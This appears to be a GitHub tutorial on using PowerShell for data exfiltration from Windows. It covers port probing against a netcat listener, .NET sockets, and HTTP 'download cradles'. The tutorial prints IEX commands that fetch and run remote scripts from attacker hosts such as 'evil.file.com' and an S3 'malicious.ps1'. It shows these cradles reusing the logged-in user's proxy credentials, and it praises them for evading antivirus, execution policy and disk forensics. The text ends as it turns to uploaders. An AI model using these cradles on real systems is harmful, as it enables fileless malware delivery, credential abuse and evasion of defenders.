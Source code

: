 # Powershell for data exfil!

Powershell functions as a great tool for windows machines. Both PS and .net primitives are installed on every windows machine, and while you can use VBS or wscript to perform exfil, they come with a higher chance for detection. Powershell is a solid framework to perform in and we'll cover some usage and options here.

While there are multiple ways to exfiltrate data, there are a a few really common methods.

- Raw sockets
- HTTP/HTTPS
- Mail(SMTP)
- Other protocols(VoIP, QUIC, e.g.)

### Raw Sockets

The easiest way to see if a particular port is open, and permitting communications is the Test-NetConnection cmdlet, like so:
~~~
PS> Test-NetConnection -port 5555 10.0.2.2

ComputerName           : 10.0.2.2
RemoteAddress          : 10.0.2.2
RemotePort             : 5555
InterfaceAlias         : Ethernet
SourceAddress          : 10.0.2.15
PingSucceeded          : True
PingReplyDetails (RTT) : 0 ms
TcpTestSucceeded       : False
~~~
We can see that while our target device is online(via PingSucceeded) our port is closed, (via TcpTestSucceeded).

Using NC(a network tool) I open up an nc listener in order to see the connection, run the same command and see the output

My host machine, listening with verbose results:
~~~
┌─[ganymede@parrot]─[~]
└──╼ $nc -lvp 5555
listening on [any] 5555 ...
~~~

The Windows10 VM:
~~~
PS> Test-NetConnection -port 5555 10.0.2.2

ComputerName           : 10.0.2.2
RemoteAddress          : 10.0.2.2
RemotePort             : 5555
InterfaceAlias         : Ethernet
SourceAddress          : 10.0.2.15
TcpTestSucceeded       : True
~~~
My host machine see's the connection
~~~
┌─[ganymede@parrot]─[~]
└──╼ $nc -lvp 5555
listening on [any] 5555 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 57950
~~~

We can go even further and transfer files, which I'll get into in a moment, first we should talk about the reason we can do this. Powershell makes use of .net primitives, and within the system.net namespace we have sockets, allowing us to open up sockets, allowing us to transfer data. Which we can see an example of utilized below:
~~~
$FuncVarS["Socket"] = New-Object System.Net.Sockets.UDPClient $P
$PacketInfo = New-Object System.Net.Sockets.IPPacketInformation
~~~
Because these all exist within the systems network namespace, the idea is that they are all part of the OS, and it won't trip AV for that reason.

### HTTP/HTTPS 

Many techniques are portable from http to https, and in the early days, protocols like irc would be used for command and control. Modern attackers are dodging port protocol mismatches and odd traffic issues using http, because in many organization you can surf the web with no issues. While an admin might make the counter argument of "We have a web proxy to handle requests." it's not an issue for an attacker. We can actually have PoC here:
~~~
$wc = New-Object System.Net.Web.Client
$wc.Proxy = [System.Net.WebRequests]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX $wc.DownloadString("https://s3bucket.amazonaws.com/malicious.ps1")
~~~

In this instance we are taking the logged in user's credentials and using the proxy, not just bypassing it, using it, which is great! We look like a normal web user and unless we're under scrutiny, we look like a normal user. When we use powershell (or any language) to download a file, it's called a "download cradle"

Typical download cradles look like this:
~~~
IEX (New-Object Net.WebClient).downloadstring("http://evil.file.com/pwnagestego.png")
~~~
"System"  it's still invoked it just doesn't need to fully  be named. IEX is actually short for invoke expression and will actually launch the PS code, directly into memory, without touching the disk, bypassing execution restriction policies, and even throwing disk based forensics off. Kepe in mind, there are definitely more download cradles, this is just one example.

Just as we can create a downloader, we can create an uploader as well.

